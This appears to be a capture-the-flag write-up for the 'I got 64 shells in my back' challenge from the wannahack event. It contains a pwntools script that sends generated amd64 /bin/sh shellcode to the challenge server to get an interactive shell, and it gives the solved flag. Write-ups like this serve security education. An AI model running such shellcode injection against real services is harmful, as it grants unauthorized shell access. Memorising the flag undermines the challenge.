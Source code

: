 # I got 64 shells in my back
![image](https://user-images.githubusercontent.com/34862954/164888498-fcef2907-8b64-4c60-98f9-1fb37852b747.png)

## Approach
This is similar to the previous ques.

You just have to change the architecture to amd64.

```
from pwn import *
conn = remote('wannahack.copsiitbhu.co.in',2440)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()


payload = (shellcraft.amd64.sh())
payload = asm(payload, arch='amd64')

conn.send(payload)
print(conn.recvline())
print(conn.recvline())
conn.interactive()
```
![image](https://user-images.githubusercontent.com/34862954/164888996-577d1068-2f78-43fd-8d5b-7e74962888f3.png)<br>
In this way, you get the flag.

flag: `wannahack{5h311c0d3_0n_64b1t_1s_@150_50_01d_:(}`

